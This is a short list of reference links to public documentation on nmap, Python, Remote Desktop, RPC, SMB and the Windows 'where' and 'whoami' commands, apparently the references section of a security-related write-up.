- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [Remote Desktop Protocol - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol)
- [Remote Desktop Services - Wikipedia](https://en.wikipedia.org/wiki/Remote_Desktop_Services)
- [Remote procedure call - Wikipedia](https://en.wikipedia.org/wiki/Remote_procedure_call)
- [Server Message Block - Wikipedia](https://en.wikipedia.org/wiki/Server_Message_Block)
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [whoami - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/whoami)
